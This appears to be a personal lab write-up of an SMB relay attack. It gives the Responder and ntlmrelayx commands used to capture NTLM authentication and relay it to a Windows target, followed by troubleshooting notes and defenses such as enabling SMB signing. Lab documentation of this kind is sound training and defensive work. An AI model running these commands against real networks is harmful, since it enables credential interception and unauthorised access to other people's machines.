


# SMB Relay Attack

## Overview

SMB Relay attack allows an attacker to capture NTLM authentication and relay it to another machine to gain access without cracking the password.

## Lab Requirements

- Kali Linux (Attacker)
- Windows Machine (Target)
- SMB Signing Disabled
- Tools: Responder, Impacket (ntlmrelayx)

## Prerequisites

- SMB signing disabled on target
- Network connectivity between attacker and target

## Objective

Capture NTLM authentication and relay it to another machine.

## Lab Setup

- Attacker: Kali Linux
- Target: Windows (SMB enabled)
- Tools: Responder, ntlmrelayx

## Steps

### 1. Start Responder

```bash
sudo responder -I eth0 -dP -v
```

### 2. Run ntlmrelayx

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

## Result

NTLM authentication successfully captured and relayed.

## Issues Faced

- ntlmrelayx did not work initially due to version mismatch
- Some connections failed due to SMB signing enabled on target

## Fix

Updated impacket:

```bash
pip install impacket --upgrade
```

## Real World Scenario

This attack can be used in corporate environments where SMB signing is disabled.

## Defense

- Enable SMB signing
- Disable NTLM authentication where possible
- Use strong network segmentation

## Screenshots




## Key Insight

This attack works because NTLM authentication can be relayed when SMB signing is not enforced.

This attack does not require password cracking.
It abuses trust in NTLM authentication.
